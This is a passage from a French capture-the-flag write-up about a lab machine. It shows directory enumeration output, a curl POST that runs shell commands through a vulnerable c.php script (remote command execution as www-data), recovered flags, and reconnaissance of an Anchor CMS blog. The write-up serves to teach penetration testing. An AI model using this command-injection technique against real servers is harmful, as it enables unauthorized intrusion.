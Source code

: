 ```plain
403       11l       31w      293c http://192.168.1.50:8111/.htpasswd
403       11l       31w      297c http://192.168.1.50:8111/.htpasswd.php
200       12l       39w      218c http://192.168.1.50:8111/index.php
200        1l        1w       11c http://192.168.1.50:8111/c.php
200        5l       18w      173c http://192.168.1.50:8111/b.php
403       11l       31w      293c http://192.168.1.50:8111/.htaccess
403       11l       31w      297c http://192.168.1.50:8111/.htaccess.php
403       11l       31w      294c http://192.168.1.50:8111/.htpasswds
403       11l       31w      298c http://192.168.1.50:8111/.htpasswds.php
```

Le script *b.php* contient un formulaire avec un champ caché baptisé *command* qui par défaut va lister le contenu de */etc/backup/*. La cible de ce script est le fichier *c.php*. On est là dans un cas très simple d'exécution de commande distante (RCE).  

```bash
$ curl -XPOST http://192.168.1.50:8111/c.php --data "command=id"
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Je n'irais pas plus loin dans cette vulnérabilité car comme dit précédemment je l'ai découverte en dernier et tout le reste était déjà terminé mais dans le même dossier que les scripts se trouvait un fichier *5ac4b37ac5bf324---flag---5ac4b37ac5bf324* contenant le flag *{{tryharder:511}}* et dans le dossier */etc/backup/* se trouvait un fichier *flag.txt* avec le contenu *{{tryharder:1}}*.  

Comme vous le verrez par la suite le CTF n'avait pas de cas particuliers d'exploitation (via l'utilisation d'un exploit existant pour une application trouée) et se concentrait sur la nécessité de pivoter avec du password spraying.  

Our house, that was where we used to sleep
------------------------------------------

Avant d'entrer dans le vif du sujet, petit tour sur le port 20000 qui donne un healthcheck des différents containers sur la machine.  

La page fournit aussi le flag *{{tryharder:1}}* de manière visible et via le code source un second caché :  

```html
<input type=hidden value="{{tryharder:007}}" />
```

Le port 8115 correspond à une installation de [Anchor CMS](http://anchorcms.com/), ce que l'on devine rapidement via la balise méta *generator* du site.  

Pour ce qui est du contenu on a plus affaire à un blog et on peut en extraire les différentes informations :  

* We would like to welcome Heather to our fast growing team.
* Thank you Larry Jr. for joining the team!!
* Please make sure that as an hourly employee you record your time in the /timeclock/ software. This helps us record the volunteer hours that are put into the creation of our product.
* I noticed that the database is running as the "root" user. I found this out by running "\! whoami". I could be wrong, can you double-check!
* I made significant changes to the code of the timeclock software. Due to the changes I made, I stored a backup in /timeclock/backup/.
